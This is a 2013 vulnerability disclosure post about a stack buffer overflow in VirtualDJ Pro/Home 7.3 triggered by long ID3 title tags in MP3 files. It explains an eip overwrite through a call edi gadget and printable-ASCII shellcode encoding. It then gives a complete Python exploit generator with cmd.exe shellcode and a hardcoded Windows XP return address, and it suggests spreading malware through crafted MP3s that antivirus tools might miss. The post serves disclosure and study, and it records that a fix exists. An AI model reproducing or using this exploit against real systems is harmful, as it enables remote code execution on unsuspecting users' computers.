 ```yaml
---
layout: post
date: 2013-03-30 00:00:00 UTC
title: VirtualDJ Pro/Home 7.3: Buffer Overflow
author: Alexandro Sanchez
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.3 and VirtualDJ Home 7.3](http://www.virtualdj.com/) and possibly previous versions of this software. When the user enters a folder, VirtualDJ tries to retrieve all information from the ID3 tags of MP3 files inside such as _Title_, _Album_, and _Artist_ and stores it in a buffer. After that, a second buffer of length 4096 is allocated in the stack and only the characters `[A-Z]` from the first buffer will be copied to it. According to the ID3 v2.x standard, these tags can have a length greater than 4096; therefore it is possible to produce a buffer overflow in this second buffer. At the time when the buffer overflow happens and the program reaches the `retn` instruction, the `edi` register points to the first buffer.

We cannot assign the `eip` the address of the first buffer directly since it contains characters which are not in range A-Z. However if we take into account the previous information, we can do this indirectly: We write in the bytes 4100:4104 of the title `"FSFD"`. After the buffer overflows occurs we get `eip == 0×44465346 == "FSFD"`. At this address (inside _urlmon.dll_) we find a `call edi` instruction and so the bytes in the first buffer will be executed. Now we face another problem. VirtualDJ has inserted a 0xC3 byte (`retn`) before each non-printable ASCII character in the first buffer and we cannot execute the shellcode directly. We can solve this by pushing into the stack the bytes of the shellcode using only printable ASCII characters. Let me explain:

Instead of pushing the bytes 0xB8, 0xFF, 0xEF, 0xFF (FFEFFFB8h) directly, we can do exactly the same using only printable ASCII characters by using the string `"%@@@@%????-R@D@-R@D@-R@D@-R?C?P"`:

```asm
and   eax, 40404040h   ; 25 40 40 40 40  == "%@@@@"
and   eax, 3F3F3F3Fh   ; 25 3F 3F 3F 3F  == "%????"  <– eax == 0
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 40444052h   ; 2D 40 44 40 52  == "-R@D@"
sub   eax, 3F433F52h   ; 2D 3F 43 3F 52  == "-R?C?"  <– eax == 0xFFEFFFB8
push  eax              ; 50              == "P"
```

Once all the bytes of the shellcode are pushed into the stack (in inverse order) we use `push esp` (0×54) and `retn` (0xC3) to run the shellcode. Obviously, it does not matter if VirtualDJ pushes another 0xC3 byte before this one.

This is a pretty serious vulnerability since VirtualDJ is considered the #1 software for mixing music with millions of downloads around the world. By exploiting this vulnerability it would be possible to spread quickly a malware just by uploading a malicious MP3 file in a popular site. Even worse, this file might not be a suspicious file for antivirus software. Note how the 4096 padding bytes could be replaced by something apparently harmless such as the real title of the MP3 file followed by a lot of spaces.

```python
#Exploit: VirtualDJ Pro/Home <=7.3 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=PJeaWqMJRm0
 
import string
 
def unicodeHex(c):
    c = hex(ord(c))[2:].upper()
    if len(c)==1: c = "0"+c
    return c+"00"
 
def movEAX(s):
    #Arrays 
    s = map(ord, list(s))
    inst = []
    target = [512, 512, 512, 512]
    carry  = [0,-2,-2,-2]
    for i in range(4):
        if s[i] < 0x10:
            target[i] = 256
            if i < 3:
                carry[i+1] = -1
    diff = [target[b] - s[b] for b in range(4)]
 
    #Gen instructions 
    for i in range(3):
        target = [target[b] - diff[b]/4 for b in range(4)]
        inst += [[diff[b]/4 for b in range(4)]]
    target = [target[b] - s[b] + carry[b] for b in range(4)]
    inst += [target]
     
    #Remove characters '[','\',']' 
    for b in range(4):
        if ord("[")  in [inst[i][b] for i in range(4)] or \
           ord("\\") in [inst[i][b] for i in range(4)] or \
           ord("]")  in [inst[i][b] for i in range(4)]:
            for i in range(4):
                inst[i][b] = inst[i][b] + 5*((-1)**(i))
     
    inst  = ["\x2D" + "".join(map(chr, i)) for i in inst]
    return "".join(inst)

#Shellcode: Run cmd.exe 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # JMP ESP ntdll.dll WinXP SP2 
shellcode += retAddress
 
while len(shellcode) % 4 != 0:
    shellcode += '\x90'
exploit = ""
for i in range(0,len(shellcode),4)[::-1]:
    exploit += "\x25\x40\x40\x40\x40\x25\x3F\x3F\x3F\x3F"  #EAX = 0 
    exploit += movEAX(shellcode[i:i+4])  #EAX = shellcode[i:i+4] 
    exploit += "\x50"  #PUSH EAX 
exploit += '\x54\xC3' #PUSH ESP; RETN 
 
c = 0
for i in exploit:
    if i in string.ascii_letters:
        c += 1
exploit +=  "A" * (4100 - c)
exploit += "FSFD"
 
print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=PJeaWqMJRm0.

## Log

* __2012-11-29__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-03-20__: Bug fixed with the release of VirtualDJ Pro/Home 7.4.
* __2013-03-29__: Exploit published.
